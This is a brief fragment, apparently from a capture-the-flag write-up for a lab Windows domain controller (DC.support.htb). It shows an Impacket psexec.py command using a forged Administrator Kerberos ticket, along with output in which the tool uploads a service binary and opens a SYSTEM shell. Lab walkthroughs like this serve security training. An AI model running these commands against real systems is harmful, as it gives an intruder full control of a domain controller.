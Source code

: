 ~~~ bash
export KRB5CCNAME=Administrator.ccache
psexec.py -k DC.support.htb                                                                
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on DC.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file iLFNScvL.exe
[*] Opening SVCManager on DC.support.htb.....
[*] Creating service uAZY on DC.support.htb.....
[*] Starting service uAZY.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
~~~


